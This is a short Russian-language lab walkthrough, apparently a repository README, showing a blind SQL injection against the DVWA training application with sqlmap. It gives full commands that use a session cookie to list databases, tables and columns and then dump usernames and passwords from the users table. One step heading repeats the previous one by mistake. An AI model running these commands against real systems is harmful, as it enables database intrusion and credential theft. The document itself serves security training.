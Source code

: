 # Слепая SQL-инъекция

1. Авторизируемся и заходим на страницу `vulnerabilities/sqli_blind`

![pic1](images/img1.png)

2. Берём куки из браузера

![pic2](images/img2.png)

3. Используем sqlmap для проведения инъекции:
Используем флаг `—dbs` для определения баз данных
```sh
sqlmap -u "http://192.168.1.69/vulnerabilities/sqli_blind/?id=2&Submit=Submit "
 --cookie "PHPSESSID=dfqu0bkebsnidql9t8h0pdi576; security=low"  —dbs
```
![pic3](images/img3.png)

Получаем информацию о 2 бд, нас интересует **dvwa**
4. Используем флаг —tables для определения таблиц в БД dvwa

```sh
sqlmap -u "http://192.168.1.69/vulnerabilities/sqli_blind/?id=2&Submit=Submit "
 --cookie "PHPSESSID=dfqu0bkebsnidql9t8h0pdi576; security=low"  –D dvwa —tables
```
![pic4](images/img4.png)

5. Используем флаг —tables для определения таблиц в БД dvwa
```sh
sqlmap -u "http://192.168.1.69/vulnerabilities/sqli_blind/?id=2&Submit=Submit "
 --cookie "PHPSESSID=dfqu0bkebsnidql9t8h0pdi576; security=low"  –D dvwa –T users —column
```
![pic5](images/img5.png)

```sh
sqlmap -u "http://192.168.1.69/vulnerabilities/sqli_blind/?id=2&Submit=Submit "
 --cookie "PHPSESSID=dfqu0bkebsnidql9t8h0pdi576; security=low"  –D dvwa –T users –C user,password —dump
```
![pic6](images/img6.png)